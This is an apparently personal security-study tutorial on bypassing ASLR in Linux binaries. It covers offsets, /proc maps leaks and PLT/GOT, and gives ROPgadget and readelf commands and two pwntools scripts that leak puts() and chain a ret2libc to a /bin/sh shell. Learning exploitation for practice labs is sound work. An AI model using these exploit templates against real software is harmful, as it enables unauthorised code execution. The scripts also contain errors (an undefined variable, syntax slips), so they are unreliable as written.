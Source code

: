 # ASLR Bypass

Address Space Layout Randomisation (ASLR) is a feature that causes memory addresses of functions and instructions to be randomised. Each time we run a binary, all of the addresses would change and never be the same.

In earlier Buffer Overflows, we examined how controlling the EIP can lead to RCE, with or without NX protection. However, with ASLR enabled, even if we can control the EIP, we cannot 'jump' anywhere because we wouldn't know where to jump to with ASLR enabled.

## Concepts

In order to bypass ASLR, we need to understand how it functions, as well as how functions are called. When we run a binary, the libraries and functions of that binary are loaded into virtual memory.

<figure><img src="../.gitbook/assets/image (5) (1) (2).png" alt=""><figcaption></figcaption></figure>

With ASLR enabled, the library would be **loaded at different places in memory** each time. With the main library being loaded differently, all functions called in the library are affected and have different locations in memory.

Functions are called based on **offsets**. For example, if the libc library is loaded at `0x10000000`, and the offset for the `printf()` function is `0x00001000`, then when a program is run and `printf()` is called, it is mapped at `0x10001000`. \
Generally, base address (where library is called) + offset = memory location of function.

The vulnerability arises because when ASLR is enabled, **the offset does not change and is constant**. So, if we are able to find the base address where the library is called, we can use the constant offsets to load certain functions.&#x20;

### **Methods**

To bypass ASLR, there are a few methods possible

* Information Leak Vulnerability
  * Can be an LFI or anything else that lets us **read memory locations on the machine**.&#x20;
  * Memory disclosure vulnerabilities also can work.
* Brute Forcing
  * Perhaps the range of addresses where the library is loaded is rather small. This indicates that the base address could be brute forced and a simple for loop can cover all of it rather quickly.&#x20;
  * Done in the October box from HTB.
* Memory Spraying
  * Involves using an amplification gadget, which is a piece of code that takes an existing chunk of data and copies it, allowing the attacker to spray a large amount of memory by only sending a relatively small number of bytes.
  * Heap spraying is not as feasible anymore (but still possible on iOS devices).

### Proc Maps

On Linux machines, we can inspect the mappings of a process given its pid through `procfs`, which is done through reading the file at `/proc/<pid>/maps`. Here's some sample output from the Retired box from HTB (which had an LFI):

```bash
$ cat /proc/407/maps
555aa1164000-555aa1165000 r--p 00000000 08:01 2408                       /usr/bin/activate_license
555aa1165000-555aa1166000 r-xp 00001000 08:01 2408                       /usr/bin/activate_license
555aa1166000-555aa1167000 r--p 00002000 08:01 2408                       /usr/bin/activate_license
555aa1167000-555aa1168000 r--p 00002000 08:01 2408                       /usr/bin/activate_license
555aa1168000-555aa1169000 rw-p 00003000 08:01 2408                       /usr/bin/activate_license
....... <truncated>
7f4888c53000-7f4888c54000 r--p 00000000 08:01 3630                       /usr/lib/x86_64-linux-gnu/ld-2.31.so
7f4888c54000-7f4888c74000 r-xp 00001000 08:01 3630                       /usr/lib/x86_64-linux-gnu/ld-2.31.so
7f4888c74000-7f4888c7c000 r--p 00021000 08:01 3630                       /usr/lib/x86_64-linux-gnu/ld-2.31.so
7f4888c7d000-7f4888c7e000 r--p 00029000 08:01 3630                       /usr/lib/x86_64-linux-gnu/ld-2.31.so
7f4888c7e000-7f4888c7f000 rw-p 0002a000 08:01 3630                       /usr/lib/x86_64-linux-gnu/ld-2.31.so
....... <truncated>
7ffe99226000-7ffe99247000 rw-p 00000000 00:00 0                          [stack]
7ffe9932a000-7ffe9932e000 r--p 00000000 00:00 0                          [vvar]
7ffe9932e000-7ffe99330000 r-xp 00000000 00:00 0                          [vdso]
```

This provides memory addresses for each loaded library as well as the program itself. It also identifes areas of memory that are writable or executable.&#x20;

Now, suppose we do this multiple times, we can find out a few things like:

* How wide is the range of addresses? Can it be brute-forced?&#x20;
* Where is the stack loaded?
* Where is the heap relative to the binary?

In general, reading this (if we are able to) allows us to find out more efficient methods of exploitation.

## Information Leak

Now, suppose we have a leak to abuse. This involves using the PLT and GOT tables within the binary:

* Procedure Linkage Table is used to call external procedures whose address is not known in the time of linking, and is left to be resolved by the dynamic linker at run time.
* Global Offsets Table is similar but is used to resolve addresses.

Since the GOT and PLT are used everywhere in the binary, they must have static memory addresses, and the GOT needs to have write permissions.

The leak is exploited through using the `puts()` function to print the address of the `puts()` function (yes you read it right) in the `libc` file mapped in the GOT table, which would allow us to retrieve the base address of `libc` to call other functions, all at run time.

To do this, we would need 3 things:

1. Address of `pop rdi` to pass the argument to the RDI register, which would be used to puts.&#x20;
2. Address of GOT table where the `puts` in libc is.
3. Address of puts to print the address leaked.

To execute this, we can do the following commands:

```bash
ROPgadget --binary <binaryname> > gadgets.txt
cat gadgets.txt | grep "pop rdi"

objdump -D <binary> | grep puts
objdump -D <binary> | grep main
```

This would print the addresses we need for the script below:

```python
from pwn import *
p = process('./binary')
context(os='linux', arch='amd64)

offset = "A" * 300 # change number
pop_rdi = p64(<pop_rdi addr>)
got_put = p64(<puts@GLIBC addr>)
plt_put = p64(<puts@plt addr>)
plt_main = p64(<main addr>

payload = junk + pop_rdi + got_put + plt_put + plt_main

p.sendline(payload)
p.recvline() # depends on what we need

leaked_puts = p.recvline().strip.ljust(8,"\x00")
log.success('Leaked puts(): ' + str(leaked_puts))
p.interactive(prompt='')
```

But wait, why do we need the `main()` address? Well, this is because once our process is stopped, the address leaked will be randomised in the next execution, meaning that we cannot end the process and need a way to preserve it.

By using the main address function, we can 'preserve' this address and make the program wait at `main()` for the second stage of our exploit.

The next part of the exploit would be a basic ret2libc or ROP chain, depending on whether NX is enabled or what is possible. For this example, I will be using a simple ret2libc exploit. Since the offsets of the functions needed for this are **constant**, all we need to do now is use the address of `puts` to dump the function of the library.&#x20;

First we need to find the address of the `puts()` function within the `libc` file, as well as the `system()`, `/bin/sh`, and `exit()` for our ret2libc.

```bash
readelf -s /usr/lib/x86_64-linux-gnu/libc.so.6 |grep puts
readelf -s /usr/lib/x86_64-linux-gnu/libc.so.6 |grep system
strings -a -t x /usr/lib/x86_64-linux-gnu/libc.so.6 |grep /bin/sh
```

From the script below, we would be able to find the base address of where `libc` is loaded, and because we never technically exited the program, **the address is not randomised again**. (remember that we called `main()` again in the first payload)

```python
from pwn import *
p = process('./binary')
context(os='linux', arch='amd64')

offset = "A" * 300 # change number
pop_rdi = p64(<pop_rdi addr>)
got_put = p64(<puts@GLIBC addr>)
plt_put = p64(<puts@plt addr>)
plt_main = p64(<main addr>

payload = junk + pop_rdi + got_put + plt_put + plt_main

p.sendline(payload)
p.recvline() # depends on what we need

leaked_puts = p.recvline().strip.ljust(8,"\x00")
log.success('Leaked puts(): ' + str(leaked_puts))

leaked_puts = u64(leaked_puts)

libc_put = <libc puts addr>
offset = leaked_puts - libc # this gives us the base libc address

log.info('glibc offset: %x', offset)

libc_system = <system addr>
libc_binsh = </bin/sh addr>

sys = p64(offset + libc_system)
sh = p64(offset + libc_binsh)

payload2 = junk + pop_rdi + sh + sys
p.sendline(payload2)
p.recvline()

p.interactive(prompt="")
```

And this is how we bypass ASLR using an Information Leak.

## Memory Spraying

To bypass ASLR without the above method is a lot more difficult. This would require memory spraying, which lets us map contiguous memory of a given size, on a given range of addresses.&#x20;

This abuses a **memory leak, a bug of which memory is never 'freed'** and triggering it multiple times until the desired amount of memory has been leaked. Also, it uses an **amplification gadget** which is a piece of code that takes an existing chunk of data and copies it, allowing the attacker to spray a large memory range by only sending a small number of bytes.&#x20;

For now, I don't have enough knowledge on this to write a proper explanation, so here's a good resource I used to (sort of) understand what's going on.

{% embed url="https://github.com/nick0ve/how-to-bypass-aslr-on-linux-x86_64" %}
